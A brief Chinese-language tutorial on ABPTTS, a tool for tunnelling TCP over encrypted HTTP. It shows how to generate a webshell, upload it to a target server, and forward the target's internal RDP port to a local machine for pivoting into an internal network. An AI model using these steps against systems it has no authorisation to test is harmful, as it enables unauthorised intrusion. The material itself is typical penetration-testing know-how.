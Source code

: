 # ABPTTS

> 原文：[https://www.zhihuifly.com/t/topic/3437](https://www.zhihuifly.com/t/topic/3437)

## 介绍

Abptts是一款基于python2.7的http加密隧道工具，Abptts能做的很多：

1.  通过http加密隧道转发至目标内网下指定的单个TCP端口

2.  通过http加密隧道同时转发至目标内网下的多台机器上的多个tcp端口

3.  把ssh隧道包裹在http加密隧道中传递，对目标二级内网进行穿透

#### 缺点：不支持PHP

## 使用流程

```
git clone https://github.com/nccgroup/ABPTTS.git
pip install pycrypto
pip install httplib2
cd ABPTTS
python abpttsfactory.py ‐o webshell 
```

在webshell目录里有aspx、jsp等脚本

将对应格式的脚本上传至测试机

```
python abpttsclient.py -c webshell\config.txt -u "http://www.0-sec.org/abptts.aspx" -f 127.0.0.1:1112/127.0.0.1:3389
mstsc 127.0.0.1:1112 
```

设置本地代理 访问内网